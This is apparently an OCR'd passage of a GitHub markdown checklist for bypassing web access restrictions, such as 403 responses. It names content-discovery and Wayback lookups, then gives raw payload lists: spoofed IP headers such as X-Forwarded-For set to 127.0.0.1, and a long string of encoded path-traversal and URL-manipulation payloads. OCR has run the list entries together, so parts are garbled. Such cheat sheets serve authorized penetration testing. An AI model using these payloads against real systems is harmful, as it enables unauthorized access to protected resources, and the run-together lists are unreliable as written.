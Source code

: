     ```
    you can use dirsearch tool or discovery content path
    ```
    
    - [ ] bypass by waybachurl
    
    ```
    search in wayback about this subdomain you can find any important path
    ```
    
    - [ ] bypass by header names
    
    ```
    Base-UrlClient-IPHttp-UrlProxy-HostProxy-UrlReal-IpRedirectRefererReferrerReffererRequest-UriUriUrlX-Client-IPX-Custom-IP-AuthorizationX-Forward-ForX-Forwarded-ByX-Forwarded-For-OriginalX-Forwarded-ForX-Forwarded-HostX-Forwarded-PortX-Forwarded-PortX-Forwarded-PortX-Forwarded-PortX-Forwarded-PortX-Forwarded-SchemeX-Forwarded-SchemeX-Forwarded-ServerX-ForwardedX-Forwarder-ForX-HostX-Http-DestinationurlX-Http-Host-OverrideX-Original-Remote-AddrX-Original-UrlX-Originating-IPX-Proxy-UrlX-Real-IpX-Remote-AddrX-Remote-IPX-Rewrite-UrlX-True-IP
    ```
    
    - [ ] bypass by header payloads
    
    ```
    Base-Url: 127.0.0.1Client-IP: 127.0.0.1Http-Url: 127.0.0.1Proxy-Host: 127.0.0.1Proxy-Url: 127.0.0.1Real-Ip: 127.0.0.1Redirect: 127.0.0.1Referer: 127.0.0.1Referrer: 127.0.0.1Refferer: 127.0.0.1Request-Uri: 127.0.0.1Uri: 127.0.0.1Url: 127.0.0.1X-Client-IP: 127.0.0.1X-Custom-IP-Authorization: 127.0.0.1X-Forward-For: 127.0.0.1X-Forwarded-By: 127.0.0.1X-Forwarded-For-Original: 127.0.0.1X-Forwarded-For: 127.0.0.1X-Forwarded-Host: 127.0.0.1X-Forwarded-Port: 443X-Forwarded-Port: 4443X-Forwarded-Port: 80X-Forwarded-Port: 8080X-Forwarded-Port: 8443X-Forwarded-Scheme: httpX-Forwarded-Scheme: httpsX-Forwarded-Server: 127.0.0.1X-Forwarded: 127.0.0.1X-Forwarder-For: 127.0.0.1X-Host: 127.0.0.1X-Http-Destinationurl: 127.0.0.1X-Http-Host-Override: 127.0.0.1X-Original-Remote-Addr: 127.0.0.1X-Original-Url: 127.0.0.1X-Originating-IP: 127.0.0.1X-Proxy-Url: 127.0.0.1X-Real-Ip: 127.0.0.1X-Remote-Addr: 127.0.0.1X-Remote-IP: 127.0.0.1X-Rewrite-Url: 127.0.0.1X-True-IP: 127.0.0.1
    ```
    
    - [ ] bypass by url payloads
    
    ```
    ##?%09%09%3b%09..%09;%20%23%23%3f%252f%252f%252f/%2e%2e%2e%2e/%2f%2f%20%23%2f%23%2f%2f%2f%3b%2f%2f%3b%2f%2f%2f%3f%2f%3f/%2f/%2f;?%2f?;%3b%3b%09%3b%2f%2e%2e%3b%2f%2e%2e%2f%2e%2e%2f%2f%3b%2f%2e.%3b%2f..%3b/%2e%2e/..%2f%2f%3b/%2e.%3b/%2f%2f../%3b/..%3b//%2f../%3f%23%3f%3f%3f.php....%00/..%00/;..%00;/..%09..%0d/..%0d/;..%0d;/..%5c/..%ff/..%ff/;..%ff;/../..;%00/..;%0d/..;%ff/..;\\..;\\;..\\..\\;.html.json//#/%20/%20#/%20%23/%23/%252e%252e%252f//%252e%252e%253b//%252e%252f//%252e%253b//%252e//%252f/%2e%2e/%2e%2e%2f//%2e%2e%3b//%2e%2e//%2e%2f//%2e%3b//%2e%3b///%2e//%2e///%2f/%3b//../..%2f/..%2f..%2f/..%2f..%2f..%2f/..//../..//../../..//../../..///../..///../..//..//../..;//.././..//../.;/..//..///..//..//..//../..//..//..;//../;//../;/..//..;%2f/..;%2f..;%2f/..;%2f..;%2f..;%2f/..;//..;/..//..;/..;//..;///..;//..//..;//..;//..;/;//..;/;/..;//.//.///.;//.;//////..//../..///..;//.///.;////..///..////../////..;///..;////..;////;//;//;///;?/;x/;x//?/?;/x/..//x/..///x/../;//x/..;//x/..;///x/..;/;//x//..//x//..;//x/;/..//x/;/..;/;;%09;%09..;%09..;;%09;;%2F..;%2f%2e%2e;%2f%2e%2e%2f%2e%2e%2f%2f;%2f%2f/../;%2f..;%2f..%2f%2e%2e%2f%2f;%2f..%2f..%2f%2f;%2f..%2f/;%2f..%2f/..%2f;%2f..%2f/../;%2f../%2f..%2f;%2f../%2f../;%2f..//..%2f;%2f..//../;%2f..///;%2f..///;;%2f..//;/;%2f..//;/;;%2f../;//;%2f../;/;/;%2f../;/;/;;%2f..;///;%2f..;//;/;%2f..;/;//;%2f/%2f../;%2f//..%2f;%2f//../;%2f//..;/;%2f/;/../;%2f/;/..;/;%2f;//../;%2f;/;/..;/;/%2e%2e;/%2e%2e%2f%2f;/%2e%2e%2f/;/%2e%2e/;/%2e.;/%2f%2f../;/%2f/..%2f;/%2f/../;/.%2e;/.%2e/%2e%2e/%2f;/..;/..%2f;/..%2f%2f../;/..%2f..%2f;/..%2f/;/..%2f//;/../;/../%2f/;/../../;/../..//;/.././../;/../.;/../;/..//;/..//%2e%2e/;/..//%2f;/..//../;/..///;/../;/;/../;/../;/..;;/.;.;//%2f../;//..;//../../;///..;///../;///..//;?;x;x/;x;??#?.php?;??////%2f///%2f%2f/%2f%2f%2f%2f%2f//
    ```
    
